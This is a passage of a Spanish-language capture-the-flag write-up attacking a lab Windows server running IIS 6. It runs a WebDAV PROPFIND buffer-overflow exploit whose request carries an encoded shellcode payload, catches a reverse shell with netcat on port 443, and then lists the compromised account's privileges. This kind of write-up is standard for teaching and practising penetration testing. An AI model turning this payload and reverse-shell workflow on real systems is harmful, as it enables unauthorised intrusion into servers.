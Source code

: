 ```bash
iis6 reverse shell               100%[=========================================================>]  12.02K  --.-KB/s    en 0.003s  

2021-09-10 01:15:57 (4.45 MB/s) - «iis6 reverse shell» guardado [12313/12313]

❯ mv iis6\ reverse\ shell exploit_iis6.py
```

Lo ejecutamos y observamos que necesitamos introducir parámetros, por lo que nos ponemos en escucha a través del puerto 443 y procedemos a ejecutar el exploit (se le cambio el nombre a *exploit_iis6.py*):

```bash
❯ python2 exploit_iis6.py 10.10.10.14 80 10.10.14.13 443
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪
㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒
䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓
兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹
䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀
㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>

```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>
```

Nos encontramos en la máquina víctima como el usuario *network service*, ahora procedemos a enumerar un poco el sistema para determinar una forma de escalar privilegios.

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 

c:\windows\system32\inetsrv>
```
